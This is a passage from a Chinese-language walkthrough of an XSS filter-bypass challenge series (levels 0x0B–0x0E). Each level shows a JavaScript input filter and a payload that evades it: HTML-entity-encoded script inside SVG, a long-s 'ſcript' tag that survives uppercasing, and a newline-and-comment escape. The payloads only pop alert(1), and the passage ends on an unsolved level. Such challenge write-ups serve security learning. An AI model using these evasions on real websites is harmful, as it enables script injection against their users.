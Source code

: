 将所有的输入都转化为大写,这样我们就用不了alert了,但是我们可以使用svg

```html
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script>
```

#### 0x0C

这题他不仅大写还屏蔽了所有的script

```php
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

这时候就可以使用古英文了,因为toUpperCase()会将古英文转换为现代英文

```html
<svg><ſcript>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</ſcript>
```





#### 0x0D

```php
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```

换行跳过,没啥好说的

```JavaScript

alert(1);
-->
```



#### 0x0E

```php
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```
